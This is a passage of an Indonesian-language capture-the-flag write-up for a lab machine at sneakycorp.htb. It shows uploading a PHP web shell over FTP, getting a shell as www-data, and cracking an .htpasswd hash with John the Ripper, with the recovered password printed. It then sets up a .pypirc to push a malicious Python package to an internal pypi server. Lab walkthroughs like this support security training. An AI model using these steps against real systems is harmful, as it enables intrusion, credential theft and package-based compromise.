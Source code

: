 ```
d-wxrw-rw-    2 1001     1001         4096 Sep 28 04:24 test
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (116.3906 MB/s)
```

![Image](img/7.PNG)

Kita mendapatkan shell sebagai www-data

Kita bisa su sebagai developer, setelah menjalankan LinEnum.sh kita bisa menemukan file .htpasswd untuk user pypi dan juga 1 virtual host lagi di subdomain pypi.sneakycorp.htb

```
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Setelah di crack dengna johntheripper kita bisa mendapatkan password pypi

```
pypi:soufianeelhaoui
```

Mengingat isi dari email yang tadi kita sekarang akan membuat package python yang akan di "tes" oleh user low.

```
https://packaging.python.org/guides/distributing-packages-using-setuptools/

https://pypi.org/project/pypiserver/#upload-with-setuptools

https://packaging.python.org/tutorials/packaging-projects/
```

Sample code untuk building python package dapat ditemukan diatas

```
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```
